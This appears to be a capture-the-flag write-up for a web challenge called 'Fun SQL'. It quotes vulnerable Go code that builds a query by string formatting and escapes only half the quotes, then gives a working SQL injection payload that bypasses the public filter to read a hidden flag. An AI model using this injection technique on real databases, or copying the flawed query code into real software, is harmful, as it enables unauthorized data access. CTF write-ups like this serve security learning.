

# Fun SQL

The flag is in the database. Can you get it?

http://ctf.wackattack.eu:5020

[⬇️ fun_sql_handout.zip](./fun_sql_handout.zip)

# Writeup

Looking in `challenge.go` you see the following code for the endpoint:

```go
var textSearch = "%" + r.URL.Query().Get("text") + "%"
textSearch = strings.Replace(textSearch, "'", "''", len(textSearch)/2)
rows, err := db.Query(fmt.Sprintf("SELECT data FROM notes WHERE public = 1 AND data LIKE '%s'", textSearch))
```

There seems to be a hidden `search` function, adding `?text=flag` to the URL allows you to basically inject SQL into the query.

The flag is in the `notes` table as shown in the same file:

```go
db.Exec("insert into notes(data,public) values(?,?)", FLAG, 0)
db.Exec("insert into notes(data,public) values(?,?)", "Hello world", 1)
db.Exec("insert into notes(data,public) values(?,?)", "Day in a life of a CTF player", 1)
db.Exec("insert into notes(data,public) values(?,?)", "Web is the best!", 1)
```

Since our note with the flag is set as `public = 0` we need to find a way to bypass this check. We can do this by injecting a `' OR 1=1 --` into the query. But there is an issue, they do replace single quotes with two single quotes, basically denying us the ability to inject SQL. However, there is a limit that it only replaces `len(searchText)/2` single quotes. 

So crafting this SQL injection:

```sql
'''''''''''''''''''''' OR public=0--

36/2 = 18 replacements

''''''''''''''''''''''''''''''''''''''''' OR public=0--
```

makes the query look like this and color code shows easily that the OR statement injected into the SQL.

```sql
SELECT data FROM notes WHERE public = 1 AND data LIKE '''''''''''''''''''''''''''''''''''''''''' OR public=0--'
```

And flag was revealed!

